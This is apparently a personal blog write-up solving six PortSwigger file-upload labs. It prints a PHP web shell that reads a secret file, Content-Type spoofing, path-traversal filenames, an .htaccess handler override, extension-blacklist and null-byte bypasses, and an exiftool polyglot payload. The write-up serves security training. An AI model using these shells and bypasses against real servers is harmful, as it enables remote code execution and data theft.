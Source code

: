 ```yaml
---
title: File upload - PortSwigger
date: 2022-7-15 00:00:00 +/-TTTT
categories: [PortSwigger]
tags: [PortSwigger, writeup, penetration testing, File upload ] 
---
```




<br />



### Table of Contents

- [Remote code execution via web shell upload](#remote-code-execution-via-web-shell-upload)
- [Web shell upload via Content-Type restriction bypass](#web-shell-upload-via-content-type-restriction-bypass)
- [Web shell upload via path traversal](#web-shell-upload-via-path-traversal)
- [Web shell upload via extension blacklist bypass](#web-shell-upload-via-extension-blacklist-bypass)
- [Web shell upload via obfuscated file extension](#web-shell-upload-via-obfuscated-file-extension)
- [Remote code execution via polyglot web shell upload](#remote-code-execution-via-polyglot-web-shell-upload)

<br /><br />

----





### [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- write a simple php code to view the content of `/home/carlos/secret`
  ```php
  <?php
  echo shell_exec('cat /home/carlos/secret');
  ?>
  ```

- upload the file

- from burp make the `Content-Type` header as a `text/html` 
  >to view all different extensions and equivalent value of Content-type header : [Content-Type](https://www.php.net/manual/en/function.mime-content-type.php#87856)



<img src="/assets/img/portswigger/file_upload/1_2.png" alt="file upload" style="zoom:80%;" />



- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

![](C:\Users\dell\Desktop\file_upload_img\1_1.png)





<br /><br />

------





### [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get 
  ```
  Sorry, file type application/octet-stream is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
  ```

- I changed the `Content-Type` header to  `image/png` and sent the request

  

  <img src="/assets/img/portswigger/file_upload/2_1.png" alt="file upload" style="zoom:80%;" />

  

- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

<br /><br />

------





### [Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`
- login with your credentials `wiener : peter`
- if you try to upload the previous php file you will get `The file avatars/code.php has been uploaded.`
- go to the file path
- notice that the page is blank and the code doesn't executed , it's just exists as a plain text
- In the `Content-Disposition` header, change the `filename` to `../code.php`
- notice that the file has been uploaded to `/files/code.php` NOT `/files/avatars/code.php` , so the filename parameter is vulnerable to path traversal
- the server performs URL decoding to the file name , So send the same request but encode the `/` with URL encoding (`%2f`) , you will get `The file avatars/../code.php has been uploaded`

<img src="/assets/img/portswigger/file_upload/3_1.png" alt="file upload" style="zoom:80%;" />



- go to `/files/avatars/..%2fcode.php` and you will see the secret text



<br /><br />

------





### [Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Sorry, php files are not allowed Sorry, there was an error uploading your file.`

- the extension `php` is blocked so i tried other php extensions to bypass the blacklisted extension

- from burp intruder i loaded these extensions and the file uploaded successfully but it was as a plain text
  >for more extensions and bypasses : [file upload bypass](https://book.hacktricks.xyz/pentesting-web/file-upload) 

  ```
  .php2
  .php3
  .php4
  .php5
  .php6
  .php7
  ```

- we need to tell the server to execute any extension we add as a `php`code , so we will add our `.htaccess` file

- change filename to `.htaccess` with `Content-Type : html/plain` and content : 
  ```
  AddType application/x-httpd-php .php0
  ```

- now any file with `php0` extension will be executed as a `php` code

<img src="/assets/img/portswigger/file_upload/4_1.png" alt="file upload" style="zoom:80%;" />



- back to the previous request , change the filename to `code.php0` and send the request



<img src="/assets/img/portswigger/file_upload/4_2.png" alt="file upload" style="zoom:80%;" />



- you will get the path of the file `The file avatars/code.php0 has been uploaded. `
- go to the file path and you will see the secret text



<br /><br />

------





### [Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.`

- the extension `php` is blocked so I tried URL-encoded null byte characters (`%00`) before the file extension 



<img src="/assets/img/portswigger/file_upload/5_1.png" alt="file upload" style="zoom:80%;" />





- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

<img src="C:\Users\dell\Desktop\file_upload_img\5_2.png" alt="file upload" style="zoom:80%;" />



<br /><br />

------





### [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Error: file is not a valid image Sorry, there was an error uploading your file.`

- I tried URL-encoded null byte characters (`%00`) before the file extension  , but I got the same message

- we need to inject our php code in any image , so we will use `exiftool` to do that
  ```bash
  exiftool -Comment="<?php echo 'Carlos Secret' . shell_exec('cat /home/carlos/secret'); ?>"  -o code.php
  ```

- this command will add this comment to the image metadata



<img src="/assets/img/portswigger/file_upload/6_1.png" alt="file upload" style="zoom:80%;" />



- upload the image 

<img src="/assets/img/portswigger/file_upload/6_2.png" alt="file upload" style="zoom:80%;" />



- go to your image path `/files/avatars/code.php` , you will get the secret text in the response



<img src="/assets/img/portswigger/file_upload/6_3.png" alt="file upload" style="zoom:80%;" />



